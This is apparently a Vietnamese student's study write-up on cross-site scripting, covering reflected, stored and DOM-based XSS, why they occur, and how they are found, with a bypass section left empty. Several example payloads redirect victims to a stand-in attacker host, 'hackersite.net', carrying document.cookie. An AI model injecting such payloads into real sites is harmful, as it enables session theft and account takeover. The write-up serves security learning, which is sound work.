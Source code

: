 **Task4** <br>
- Tìm hiểu XSS và các loại tấn công XSS (XSS là gì, tại sao lại xảy ra lỗi, các loại tấn công phổ biến, cách khai thác + một số cách bypass mà em biết, cách ngăn chặn)
- Dựng lại lab: 3 loại XSS (Reflected, Stored, DOM) <br>
Yêu cầu: Viết lý thuyết lổ hổng 1 cách chi tiết.

# XSS 
## XSS là gì?
- XSS là một lỗ hổng bảo mật cho phép kẻ tấn công chèn thêm vào một loại mã độc(thường là JavaScript) vào một trang web, và khi người dùng truy cập trang web đó mã độc sẽ thực thi trên trình duyệt ngưởi dùng. Điều này cho phép kẻ tấn công lấy được thông tin cá nhân của người dùng, thực hiện các hành động giả mạo hoặc hành động trên trang web thay người dùng.
- Mục đích chính của các cuộc tấn công này là ăn cắp dữ liệu nhận dạng như: cookies, session, tokens... Tấn công XSS được thực hiện ở phía client, phổ biến là thực hiện với HTML và JavaScript.
## Tại sao lại xảy ra lỗi?
- XSS xảy ra khi web không kiểm soát được dữ liệu đầu vào của người dùng . Cụ thể, khi người dùng nhập nhập vào các đầu vào, dữ liệu này có thể chứa ký tự đặc biệt hoặc các mã độc. Và khi không được xử lý đúng thì nó có thể truyền ngược lại cho trình duyệt của người dùng và các đoạn mã độc được thực hiện trên máy người dùng.
- XSS cũng có thể xảy ra khi lưu trữ các dữ liệu nhập vào như bình luận hoặc nội dung mà không qua xử lý. <br>
Qua đó, kẻ tấn công có thể dùng mã độc đó để tấn công, ăn cắp dữ liệu quan trọng ...
## Các loại tấn công phổ biến:
### 1. Reflected XSS
Đây là loại XSS đơn giản nhất. Nó xảy ra khi nhận dữ liệu trong một HTTP request và bao gồm dữ liệu trong phản hồi lập tức theo cách không an toàn. Ví dụ:
```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```
Ứng dụng không thực hiện xử lý dữ liệu, vì vậy kẻ tấn công có thể thực hiện cuộc tấn công:
```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```
Khi người dùng truy cập vào một URL có chứa đoạn mã độc. Khi đó trình duyệt sẽ gửi yêu cầu đến server và server trả về trang web kèm tham số được truyền trên URL. Từ đó, các tham số chứa mã độc đó được thực thi trên trình duyệt người dùng. <br>

**Kịch bản khai thác** <br>
- Khi người dùng đăng nhập vào trang web và được gắn với một cookie.
- Kẻ tấn công sẽ tạo ra 1 web có thể nhận được phản hồi ví dụ: `http://hackersite.net` và bằng 1 cách nào đó gửi cho nạn nhân  1 đường link `www.abcd.com?search=<script>window.location="http://hackersite.net?c="+document.cookie</script>`.
- Khi nạn nhân bị lừa click vào link và khi đó cookie của nạn nhân gắn vào link đó và truy cập vào site của kẻ tấn công.
- Kẻ tấn công khi ấy sẽ xem log của site và lấy được cookie của nạn nhân qua đó có thể truy cập vào tài khoản và thực hiện nhiều hành động khác.

### Mức độ của tấn công
Kẻ tấn công có thể kiểm soát được tập lệnh thực thi của trình duyệt người dùng. Ngoài ra có thể:
- Thực hiện hành động trong ứng dụng mà người dùng thực hiện được:
- Xem bất ký thông tin nào có thể xem.
- Sửa đổi thông tin nào có thể sửa đổi.
- Tương tác với người dùng khác để mở rộng tấn công.
### 2. Stored XSS 
Stored XSS xảy ra khi ứng dụng nhận dữ liệu từ nguồn không đáng tin cậy và bao gồm dữ liệu đó trong HTTP response một cách không an toàn. <br>
Giả sử 1 web cho người dùng gửi comment lên 1 blog và được hiện thị đến người dùng khác. Ví dự khi gửi HTTP request:
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.
```
Sau khi gửi thành công, bất kỳ người dùng nào cũng có thể thấy được comment và phản hồi dưới dạng:
```
<p>This post was extremely helpful.</p>
```
Khi ứng dụng không có xử lý khác, kẻ tấn công sẽ chèn mã độc vào comment đó, khi đó bất kỳ người dùng nào truy cập vào blog đó thì ứng dụng sẽ thực thi mã độc. <br>
**Kịch bản khai thác** <br>
- Giả sử khi đó kẻ tấn công chèn mã độc vào bình luận để tải lên:
```<script>window.location("http://hackersite.net?c="+document.cookie)</script>```
- Khi có người dùng truy cập vào đúng bài viết có bình luận này thì trình duyệt người dùng thực thi mã độc trên và cookie sẽ đến được với kẻ tấn công.
#### Mức độ của tấn công
- Kẻ tấn công có thể thực hiện bất cứ hành động nào mà nạn nhân thực hiện được như cuộc tấn công Reflected XSS.
- Điểm khác biệt giữa Stored XSS với Reflected XSS là cuộc tấn công này xảy ra trong chính ứng dụng web đó. Ngoài ra kẻ tấn công không phải tìm cách cho nạn nhân thực hiện hành động mới có thể khai thác được mà ở đây bất kỳ nạn nhân trong ứng dụng gặp phải mã độc đó. Với Stored XSS, kẻ tấn công dễ dàng đạt được mục đích hơn vì nạn nhân bị tấn công thì chắc chắn khi đó người dùng đã login và trong phiên làm việc(session) của web.
- Đối tưởng bị ảnh hưởng với Stored XSS có thể là tất cả những người sử dụng ứng dụng web đó.
### 3. DOM-based XSS
- DOM-based XSS xảy ra khi JavaScript lấy dữ liệu từ nguồn có thể kiểm soát của kẻ tấn công và dữ liệu đó được đưa đưa vào phần thực thi code. Khi người dùng truy cập vào trang web đó, mã độc sẽ được thực thi trong trình duyệt của họ, cho phép kẻ tấn công thực hiện các hành động độc hại, như đánh cắp thông tin người dùng hoặc thực hiện các giao dịch không được ủy quyền. <br>
- Sự khác biệt chính giữa DOM-based XSS và các hình thức XSS khác là trong DOM-based XSS, mã độc được chèn vào và thực thi trực tiếp trên Document Object Model (DOM) của trang web, thay vì thông qua các tài liệu HTML hoặc các yếu tố khác trên trang web. Do đó lỗ hổng này chỉ có thể ảnh hưởng ở client-side. <br>
Giả sử 1 trang web chi phép người dùng tìm kiếm thông tin tài khoản bằng cách nhập vào input và yêu cầu đến máy chủ. JavaScript hiện thị kết quả tìm kiếm: 
```
document.getElementById("search_results").innerHTML = "Result of " + username 
```
Trong trường hợp này, kẻ tấn công sẽ chèn mã độc vào trường tìm kiếm và nhập tên người dùng sau:
```
<script>
  window.location="http://hackersite.net?c="+document.cookie
</script>
```
Khi trình duyệt thực hiện mã độc này sẽ chuyển hướng đến site của hacker kèm cookie và khi đó kẻ tấn công có được cookie và sử dụng với mục đích xấu.
#### Mức độ của tấn công
Giống với các cuộc tấn công khác của XSS, kẻ tấn công có thể ăn căp thông tin quan trọng người dùng, thực hiện các hành động khác ... 
## Cách khai thác và bypass
- Tìm kiếm và quan sát các đầu vào như ô tìm kiếm, form, URL, parameters, HTTP header, ... nơi mà kẻ tấn công chèn có thể chèn mã độc.
- Sau đó kẻ tấn công sẽ kiểm tra đầu vào bằng một số ký tự, các tag của html, scripts... rồi xem xét phản hồi nhận được. Test các phương thức trong js xem cách trình duyệt xử lý như `alert()`, `prompt()`.
- Từ đó xác định nó thuộc loại lỗ hổng XSS nào rồi khai thác như phần trên theo từng loại.

### Một số kỹ thuật và cách bypass



